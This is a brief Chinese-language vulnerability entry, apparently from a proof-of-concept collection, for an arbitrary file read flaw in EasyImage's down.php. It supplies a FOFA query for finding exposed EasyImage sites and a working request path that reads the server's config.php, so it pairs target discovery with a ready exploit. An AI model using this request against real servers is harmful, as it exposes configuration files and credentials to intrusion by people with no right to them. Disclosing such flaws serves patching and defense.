 # EasyImage down.php 任意文件读取漏洞

## 漏洞描述

EasyImage down.php 文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
EasyImage
```

## FOFA

```
app="EasyImage-简单图床"
```

## 漏洞复现

主页面

![image-20230417094057151](images/image-20230417094057151.png)

验证POC

```
/application/down.php?dw=./config/config.php
```

![image-20230417094115549](images/image-20230417094115549.png)